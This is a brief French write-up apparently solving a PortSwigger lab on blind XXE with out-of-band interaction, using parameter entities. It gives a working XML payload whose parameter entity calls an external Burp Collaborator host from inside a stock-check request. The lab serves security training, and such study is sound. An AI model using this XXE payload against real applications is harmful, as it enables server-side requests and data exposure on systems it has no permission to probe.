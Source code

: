 # Lab

https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities

## Solution

On peut utiliser le même payload que pour les SSRF via XXE mais avec des entités paramétrées :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://817eus97t4ot5737tip5yu26nxtohg55.oastify.com"> %xxe; ]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
